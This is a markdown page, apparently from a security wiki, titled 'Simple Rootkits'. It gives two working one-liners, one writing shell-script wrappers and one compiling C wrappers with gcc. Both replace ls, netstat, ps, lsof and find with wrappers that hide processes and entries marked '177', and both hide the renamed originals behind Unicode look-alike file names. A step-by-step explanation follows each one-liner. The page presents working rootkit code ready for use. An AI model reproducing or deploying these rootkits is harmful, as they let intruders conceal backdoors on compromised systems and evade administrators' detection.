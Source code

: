 # Simple Rootkits

## Shell Rootkit

{% hint style="danger" %}
This rootkit is pretty easy to detect and analyze because it can easily be seen with the file command that programs like `ps` or `ls` have changed the type from an ELF binary to a shell script. After discovering the rootkit, it is also pretty easy to analyze the functionality of it and then selectively find the backdoors hidden by the rootkit.
{% endhint %}

The shell script version is still useful if the system doesn't contain a c compiler:

```
which ls netstat ps lsof find|perl -pe'$s="\x{455}";$n="\x{578}";chop;$o=$_;s/([ltp])s/\1$s/||s/fin/fi$n/;rename$o,$_;open F,"&gt;$o";print F"#!/bin/sh\n$_ \$*|grep -vE \"[$s-$n]|grep|177\"";chmod 493,$o'
```

The which command lists the absolute path of the programs to maniuplate in the rootkit. These absolute paths are passed to a perl one-liner. The perl program starts with defining the variables $s and $n, which are initialized with the Unicode characters u+455 and u+578. These characters look like the ascii characters "s" and "n". Then it copies the filename of the original filename to $o and changes the filename in $\_ by replacing the "s" in ls, netstat, ps and lsof with u+455 and the "n" in find with u+578. The result of these replacements is a new filename which looks exactly like the original filename. The original program is then renamed to the new name and then replaced with a shell script, which calls the renamed original program ($\_) and pipes the output to grep. The grep command filters lines containing one of the following:

* Unicode characters used by the rootkit (\[$s-$n]) => Makes the rootkit self-hiding
* The string "grep" => Don't show that grep is running in the output of ps
* The string "177" => This is used for the stuff which should be hidden by the rootkit.

## The C Version

In order to make finding and analyzing the rootkit more difficult, it is also possible to compile small binaries instead of the shell script:

```
which ls netstat ps lsof find|perl -pe'$s="\x{455}";$n="\x{578}";chop;$o=$_;s/([ltp])s/\1$s/||s/fin/fi$n/;rename$o,$_;open F,"|gcc -xc - -o$o";print F qq{int main(int a,char**b){char*c[999999]={"sh","-c","$_ \$*|grep -vE \\"177|\$\$|[$s-$n]|grep\\""};memcpy(c+3,b,8*a);execv("/bin/sh",c);}}'
```

The beginning is pretty much like the first variant of the rootkit. However, insted of directly writing the wrapper program, the perl script opens a pipe to gcc and writes a small C program to this pipe. The following shows a more readable version of the C program:

```
int main(int a,char**b){
  char*c[999999]={"sh","-c","original_program \$*|grep -vE \\"177|\$\$|[$s-$n]|grep\\""};
  memcpy(c+3,b,8*a);
  execv("/bin/sh",c);
}
```

The first line initializes the argument array for execv with "sh -c" and the same shell command as the first variant of the rootkit while the second line copies all remaining arguments from the argv array passed to the wrapper binary to the end of the argument array for execv.

